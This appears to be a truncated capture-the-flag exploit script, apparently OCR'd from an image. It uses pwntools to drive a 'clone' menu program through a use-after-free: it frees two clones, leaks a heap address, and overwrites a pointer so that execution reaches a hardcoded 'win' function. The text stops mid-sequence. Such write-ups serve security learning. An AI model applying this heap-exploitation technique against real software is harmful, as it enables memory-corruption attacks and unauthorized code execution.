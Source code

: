 ```
    p = start()
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
win = p32(0x804967c)
free = p32(0x8049206)
name = b''
# Create first clone
p.recvuntil(b"Choice: ", drop = True)
p.sendline(b'a')
p.recvuntil(b"Clone ID: ", drop=True)
p.sendline(b'0')
p.recvuntil(b"): ", drop=True)
p.sendline(name)
# Create second clone
p.recvuntil(b"Choice: ", drop = True)
p.sendline(b'a')
p.recvuntil(b"Clone ID: ", drop=True)
p.sendline(b'1')
p.recvuntil(b"): ", drop=True)
p.sendline(name)
# Kill both clones
p.recvuntil(b"Choice: ", drop = True)
p.sendline(b'b')
p.recvuntil(b"Clone ID: ", drop=True)
p.sendline(b'0')
p.recvuntil(b"Choice: ", drop = True)
p.sendline(b'b')
p.recvuntil(b"Clone ID: ", drop=True)
p.sendline(b'1')
# Leak first clone address
p.recvuntil(b"Choice: ", drop=True)
p.sendline(b'd')
p.recvuntil(b"ID: ", drop=True)
p.sendline(b'1')
p.recvuntil(b"Name: ", drop=True)
leak = p.recvline()
leak = leak[0:4]
log.info(f"Leak is: {hex(u32(leak))}")
leak = u32(leak)+  0xc
# Rename first clone
p.recvuntil(b"Choice: ", drop = True)
p.sendline(b'c')
p.recvuntil(b"Clone ID: ", drop=True)
p.sendline(b'0')
p.recvuntil(b"): ", drop=True)
p.sendline(p32(leak))
# Create three clones, the last clone with the win function
p.recvuntil(b"Choice: ", drop = True)
p.sendline(b'a')
p.recvuntil(b"Clone ID: ", drop=True)
p.sendline(b'2')
p.recvuntil(b"): ", drop=True)
p.sendline(name)
p.recvuntil(b"Choice: ", drop = True)
p.sendline(b'a')
p.recvuntil(b"Clone ID: ", drop=True)
p.sendline(b'3')
p.recvuntil(b"): ", drop=True)
p.sendline(name)
p.recvuntil(b"Choice: ", drop = True)
p.sendline(b'a')
p.recvuntil(b"Clone ID: ", drop=True)
```
